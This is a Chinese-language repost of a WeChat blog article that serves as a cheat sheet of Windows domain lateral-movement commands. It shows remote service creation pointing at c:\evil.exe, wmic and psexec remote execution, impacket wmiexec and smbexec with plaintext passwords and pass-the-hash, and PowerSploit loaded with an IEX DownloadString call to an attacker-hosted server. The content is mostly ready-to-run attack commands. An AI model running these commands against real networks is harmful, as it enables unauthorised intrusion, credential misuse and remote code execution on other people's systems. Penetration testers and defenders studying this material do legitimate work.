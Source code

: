 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SKrn7kSd5C4m8SZYBYqt-g)

域环境搭建
=====

参考 https://blog.csdn.net/niexinming/article/details/75650128

开启和 admin

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4zqVddQMmKbtibRnsiaBNDu2FW5ptwWicc6J3QiaOvfkCuzoDDI0MPwOLCw/640?wx_fmt=png)

```
net share $ipcnet share $admin
```

直接执行

```
dir \\IP\c$
tasklist /S IP /U 用户 /P 密码
```

sc
==

```
sc \\[HOST] create boom binpath= c:\evil.exe
sc \\[HOST] start boom
sc \\[HOST] delete boom
```

wmic
====

```
wmic /node:172.18.16.172 /user:admin /password:password  process call create "cmd.exe /c ipconfig>c:\result.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4Bsibvibam2x3Rgg7yhFSia77ibhBo5AayicJ0xs5vVu8kNr4MGxbL1bWYMQ/640?wx_fmt=png)

wmiexec.py  

=============

安装:

```
git clone https://github.com/CoreSecurity/impacket.gitcd impacket/pip install
```

用户密码

```
python wmiexec.py 用户名:密码@目标IP
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4wxic46ibrEzeyIQFM17Fa7umWnZQOGkuWqAvA4BZTOGCNKIoHiasu7Ijw/640?wx_fmt=png)

哈希传递  

```
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4VwicOaFKX4TL5PNibwAQuiaaxuACngeut5fH5ibMyfNqVnKnKZdT5jYfQQ/640?wx_fmt=png)

wmiexec.vbs  

==============

```
cscript.exe wmiexec.vbs /cmd 172.18.16.172 administrator password “command”
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic44X9O5DV950Xog379YcaO8G2xWTyQtgSY61yjcEoskIbQef25gNb8ibQ/640?wx_fmt=png)

powershell 工具  

================

```
Invoke-WmiCommand.ps1是PowerSploit中的一个脚本工具，该脚本主要通过powershell调用WMI来远程执行命令，本质上还是利用WMI。
```

下载地址：https://github.com/PowerShellMafia/PowerSploit

```
git clone https://github.com/PowerShellMafia/PowerSploit.gitcd PowerSploit-master\PowerSploit-master\CodeExecutionpython –m SimpleHTTPServerpowershellIEX(New-Object Net.Webclient).DownloadString('http://xx.xx.xx.xx//Invoke-WmiCommand.ps1')$User = "域名\用户名"     // 指定目标系统用户名$Password = ConvertTo-SecureString -String "文明密码" -AsPlainText -Force   // 指定目标系统的密码$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password    // 将账号和密码整合起来，以便导入credential$Remote = Invoke-WmiCommand -Payload {要执行的命令} -Credential $Cred -ComputerName 目标IP$Remote.PayloadOutput       // 将执行结果输出到屏幕上
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4Vwe2PUicia0dbibcxms0coSvUficCPm8ACBO5F2VdV5QtDpQkviclYJNibwQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4U9L9GF1rB39PFTicnbg71UpX6rYGia2SEKgibKkOIH69MO9zxGvmnzicLg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4nmeiafIRaiaj3Y8qLdgo6Gic67YibgtBj64MfUJMWSUSPIQnMWnfJowywA/640?wx_fmt=png)

Invoke-WMIMethod.ps1(无回显)  

Invoke-WMIMethod.ps1 模块是 powershell 自带的，可以在远程系统中执行命令和指定程序。在 powershell 命令行环境执行如下命令，可以以非交互式的方式执行远程命令，但不会回显执行结果。

```
$User="域名\用户名"    // 指定目标系统用户名$Password=ConvertTo-SecureString -String "密码" -AsPlainText -Force   // 指定目标系统密码$Cred=New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password     // 将账号和密码整合起来，以便导入 Credential中Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName "目标机IP" -Credential $Cred   // 在远程系统中运行notepad.exe命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4DsR6NbOtHLZ9KqJ8W9DVCPZYZf5ZibXj3r3Su8XeW2mbqQJXmzDiacHg/640?wx_fmt=png)

psexec  

=========

```
psexec.exe \\ip –u 账号 –p 密码 cmd.exe /c ipconfig 
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic4UiaDX8pH9UYc9lKB5I8dOyfaN4LJQibiaamyaN83cAicCJBby6TniclUvrw/640?wx_fmt=png)

smbexec  

==========

```
https://github.com/SecureAuthCorp/impacket
smbexec.py 用户名:密码@IP
```

参考文档
====

https://www.freebuf.com/articles/network/246440.html https://cloud.tencent.com/developer/article/1752145

作者：Leticia's Blog ，详情点击阅读原文。

**推荐阅读**[**![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyIDG0WicDG27ztM2s7iaVSWKiaPdxYic8tYjCatQzf9FicdZiar5r7f7OgcbY4jFaTTQ3HibkFZIWEzrsGg/640?wx_fmt=png)**](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247496904&idx=1&sn=e6c717bc2709f7c4ec8523bc681f43f3&chksm=9acd2457adbaad4169ed38ebf0d969553b6cf4dee26307f2ce6a137c52849e4ffdf06325347e&scene=21#wechat_redirect)  

公众号

**觉得不错点个 **“赞”**、“在看”，支持下小编****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**